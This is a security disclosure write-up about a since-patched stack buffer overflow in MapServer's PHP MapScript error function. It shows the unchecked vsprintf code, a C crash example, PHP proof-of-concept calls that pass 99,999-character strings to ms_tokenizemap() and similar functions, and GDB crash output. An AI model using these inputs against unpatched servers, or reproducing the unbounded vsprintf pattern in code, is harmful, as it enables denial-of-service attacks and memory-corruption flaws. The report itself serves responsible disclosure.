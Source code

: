 

>This is one of the reports that I sent privately to the MapServer Development Team in *Feb/28th/2020* The issues were patched: https://github.com/mapserver/mapserver/issues/6014

# Stack-Based Buffer Overflow in mapscript_throw_mapserver_exception()

Spotted a stack-based Buffer Overflow when throwing PHP error messages using ``mapscript_throw_mapserver_exception()``.

## PoC 
from [mapserver/mapscript/php/mapscript_error.c](https://github.com/mapserver/mapserver/blob/368d71155fcddc7ba250cdad8821541f4d61619e/mapscript/php/mapscript_error.c)
```c
#if  PHP_VERSION_ID >= 70000
zend_object* mapscript_throw_mapserver_exception(char *format TSRMLS_DC, ...)
#else
zval* mapscript_throw_mapserver_exception(char *format TSRMLS_DC, ...)
#endif
{
  va_list args;
  char message[MAX_EXCEPTION_MSG];
/*...more code..*/
  va_start(args, format);
  vsprintf(message, format, args);
  va_end(args);
```

There is no size check on the ``format`` char array before copying it into ``message``.
This means that if the ``format`` string is bigger than ``MAX_EXCEPTION_MSG`` (=256 bytes) a classic stack-based buffer overflow will occur. 

Example:
```c
char payload[999];
memset(payload,'A',998);
mapscript_throw_mapserver_exception(payload);
```
will cause a crash 

## Attack Scenario
So our entry point is the error string parameter in ``mapscript_throw_mapserver_exception()``

We need to find a MapScript php function that prints a dynamic error (without a fixed length). 
I found ``ms_tokenizemap()`` to be a good candidate for a PoC:

When calling the PHP function ``ms_tokenizemap($filename)`` without a non-existing filename it throws the following error:


(snippet from [mapserver/mapscript/php/php_mapscript.c](https://github.com/mapserver/mapserver/blob/368d71155fcddc7ba250cdad8821541f4d61619e/mapscript/php/php_mapscript.c))
```c
    mapscript_throw_mapserver_exception("Failed tokenizing map file %s" TSRMLS_CC, filename);
```
PHP Output:
```
PHP Fatal error:  Uncaught exception ... 'Failed tokenizing map file <PAYLOAD_IS_REFLECTED_HERE>' in ...
```
The ``format`` parameter (from the PoC showed in the beginning) is dynamic and its length is determined by the ``$filename`` PHP variable.
If the filename will make the error's length to be greater than 256 bytes, an overflow will occur.
```php
<?php
$payload = str_repeat('A',99999); // this malicious string can come from any other un-trusted source, such as $_POST[] / $_GET[] / etc.
ms_tokenizemap($payload);
?>
```
After running the code above, the PHP process crashed.

The output from GDB can be found below.

### GDB Output

```
*** buffer overflow detected ***: /usr/bin/php terminated
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x68fce)[0xb789afce]
/lib/i386-linux-gnu/libc.so.6(__fortify_fail+0x6b)[0xb793003b]
/lib/i386-linux-gnu/libc.so.6(+0xfceca)[0xb792eeca]
/lib/i386-linux-gnu/libc.so.6(+0xfc628)[0xb792e628]
/lib/i386-linux-gnu/libc.so.6(_IO_default_xsputn+0x8e)[0xb78a2d9e]
/lib/i386-linux-gnu/libc.so.6(_IO_vfprintf+0x357a)[0xb7878d8a]
/lib/i386-linux-gnu/libc.so.6(__vsprintf_chk+0xb1)[0xb792e6e1]
/usr/lib/php5/20121212+lfs/php_mapscript.so(mapscript_throw_mapserver_exception+0xa9)[0xb3a5b049]
/usr/lib/php5/20121212+lfs/php_mapscript.so(zif_ms_tokenizeMap+0x12e)[0xb3a835de]
/usr/bin/php(execute_internal+0x82)[0x8413672]
/usr/bin/php(dtrace_execute_internal+0x47)[0x834df67]
/usr/bin/php[0x841714d]
/usr/bin/php(execute_ex+0x47)[0x838b127]
/usr/bin/php(dtrace_execute_ex+0x6d)[0x834de5d]
/usr/bin/php(zend_execute+0x1c5)[0x8415225]
/usr/bin/php(zend_eval_stringl+0x29c)[0x835217c]
/usr/bin/php(zend_eval_stringl_ex+0x33)[0x83522c3]
/usr/bin/php(zend_eval_string_ex+0x40)[0x8352340]
/usr/bin/php[0x8419111]
/usr/bin/php(main+0x527)[0x8098ff7]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf3)[0xb784baf3]
/usr/bin/php[0x8099082]
======= Memory map: ========
08048000-08876000 r-xp 00000000 08:01 919750     /usr/bin/php5
08876000-088d7000 r--p 0082d000 08:01 919750     /usr/bin/php5
088d7000-088de000 rw-p 0088e000 08:01 919750     /usr/bin/php5
088de000-0907d000 rw-p 00000000 00:00 0          [heap]
aff08000-aff1c000 r-xp 00000000 08:01 920409     /usr/lib/i386-linux-gnu/libexslt.so.0.8.17
/*....*/
b702b000-b702c000 r--p 00009000 08:01 919747     /usr/lib/i386-linux-gnu/libkrb5support.so.0.1
b702c000-b702d000 rw-p 0000a000 08:01 919747     /usr/lib/i386-linux-gnu/libkrb5support.so.0.1
b702d000-b7030000 r-xp 00000000 08:01 394120     /lib/i386-linux-gnu/libcom_err.so.2.1
Program received signal SIGABRT, Aborted.
0xb7fdd424 in __kernel_vsyscall ()
```


## Important Note
* This affect not only the ``ms_tokenizemap()`` PHP function, it affects all of the functions that throws errors with dynamic length. More examples:
```php
<?php
ms_newshapefileobj(str_repeat('A',99999));
ms_newmapobj(str_repeat('A',99999));
ms_tokenizemap(str_repeat('A',99999));
?>
```
which makes the attack surface even bigger.

 